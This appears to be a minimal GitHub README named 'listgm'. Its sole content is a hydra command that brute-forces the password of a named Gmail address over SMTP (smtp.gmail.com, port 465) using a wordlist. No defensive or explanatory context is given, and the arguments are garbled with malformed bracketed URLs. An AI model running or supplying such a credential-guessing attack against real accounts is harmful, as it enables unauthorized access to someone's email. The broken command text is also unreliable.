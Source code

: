 # listgm
listgm
hydra -S -l [https://[chammamachamma]@gmail.com -P /sdcard/[https://github.com/aziz0523/listgm.git ] -v -V -e ns -s 465 smtp.gmail.com smtp
